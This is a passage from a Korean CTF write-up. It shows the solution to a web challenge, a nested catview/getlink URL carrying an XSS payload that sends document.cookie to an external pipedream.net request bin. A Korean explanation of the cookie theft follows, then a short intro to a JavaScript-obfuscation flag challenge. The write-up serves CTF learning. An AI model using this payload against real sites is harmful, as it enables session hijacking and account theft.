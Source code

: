 **Payload**

> [http://bob.zairo.kr:1337/catview?src=http://bob.zairo.kr:1337/getlink?idx=http%3A%2F%2Fbob.zairo.kr%3A1337%2Fgetlink%3Fidx%3D%3Cscript%3Edocument.location.href%3D%27https%3A%2F%2Fenwm946jeqwe.x.pipedream.net%2F%3Fparam%27%2Bdocument.cookie%3C%2Fscript%3E](http://bob.zairo.kr:1337/catview?src=http://bob.zairo.kr:1337/getlink?idx=http%253A%252F%252Fbob.zairo.kr%253A1337%252Fgetlink%253Fidx%253D%253Cscript%253Edocument.location.href%253D%2527https%253A%252F%252Fenwm946jeqwe.x.pipedream.net%252F%253Fparam%2527%252Bdocument.cookie%253C%252Fscript%253E)

> [http://bob.zairo.kr:1337/catview?src=http://bob.zairo.kr:1337/getlink?idx=http://bob.zairo.kr:1337/getlink?idx=](http://bob.zairo.kr:1337/catview?src=http://bob.zairo.kr:1337/getlink?idx=http://bob.zairo.kr:1337/getlink?idx=)**&lt;script&gt;document.location.href='[https://enwm946jeqwe.x.pipedream.net/?param](https://enwm946jeqwe.x.pipedream.net/?param)'+ document.cookie&lt;/script&gt;**

- 위 구문을 통해 `catview` 페이지에서 `src` 파라미터로 값을 처리할 때 `getlink` 페이지에 접속하고 `getlink` 페이지의 `idx`에 입력 되어 있는 스크립트 구문이 실행되어 결국 쿠키를 탈취 할 수 있다.

![/assets/bob/bob913.png](/assets/bob/bob913.png)  


<br/>


<br/>


## King musae

---

![/assets/bob/bob914.png](/assets/bob/bob914.png)
```
[Javasciprt 난독화]
해당 문제는 Javascript 난독화이며, 간단하게 플래그가 숨겨져 있는 문제임
(본 문제는 [로얄 마카롱 앵무새](https://m.blog.naver.com/chiot_aile/221592247073)가 생각나서 만들게 되었으며,  라온에 놀러오시면 꼭 여기 마카롱집 가야됩니다.)

풀이는 어렵지 않으며, 간단하다. 별다른 안티 디버깅 및 복잡한 난독화가 아닌 단순히 플래그가 출력되지 못하도록 변수에 저장되어있는 걸 찾는 문제임
```